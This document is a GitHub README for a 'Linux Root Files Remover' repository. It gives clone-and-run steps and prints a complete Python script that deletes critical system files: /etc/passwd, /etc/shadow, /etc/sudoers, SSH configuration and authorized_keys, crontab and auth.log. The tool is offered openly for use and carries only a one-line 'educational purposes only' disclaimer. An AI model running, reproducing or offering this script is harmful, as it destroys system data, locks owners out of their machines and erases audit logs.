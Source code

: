 <!--Linux-Root-Files-Remover -->

<p align="center">
  <img src="images.png">
</p>

<h3><p align="center">Deleting Linux Root Files</p></h3>

This python script is used to delete critical system files and can cause a lot of damage if misused.

<h1><p align="center">How to Use This Script</p></h1>

<h3><p align="center">Run Python File</p></h3>

1. Install Python on your system if it is not already installed. You can download it from the official Python website.

2. Clone the repo to your device 

3. Open a terminal/command prompt and navigate to the directory where you saved the python file.

4. Run the python script using the command `Linux-Root.py`. This will execute the script and delete the files listed in the `files_to_delete` list.

<h3><p align="center">Run Bash File</p></h3>

- Just, Clone this repository -
  ```
  git clone https://github.com/7ussainnabeel/Linux-Root-Files.git
  ```

- Now go to cloned directory and run `Linux-Root.sh` -
  ```
  $ cd LINUX-ROOT-FILES
  $ bash Linux-Root.sh
  ```
##

<h3><p align="center">Code Explanation</p></h3>

```python
import os

files_to_delete = [
    "/etc/passwd",
    "/etc/shadow",
    "/etc/group",
    "/etc/sudoers",
    "/etc/ssh/sshd_config",
    "/etc/hosts",
    "/etc/network/interfaces",
    "/etc/fstab",
    "/etc/hostname",
    "/etc/resolv.conf",
    "/etc/securetty",
    "/etc/motd",
    "/var/log/auth.log",
    "/root/.ssh/authorized_keys",
    "/etc/hosts.allow",
    "/etc/hosts.deny",
    "/etc/crontab",
    "/etc/cron.d/",
    "/etc/passwd-",
    "/etc/shadow-",
]

for file in files_to_delete:
    if os.path.exists(file):
        os.remove(file)
        print(f"Deleted {file}")
    else:
        print(f"{file} does not exist")

The script first imports the os module which provides a way to interact with the system.

The files_to_delete list contains the file paths of the files that the script will delete.

The script then iterates over each file in the files_to_delete list. If the file exists, it is deleted using the os.remove() function. The print() function is used to display a message indicating whether the file was deleted successfully or not.

This Tool is made for educational purposes only. Do not attempt to violate the law with anything contained here. If this is your intention, then Get the hell out of here!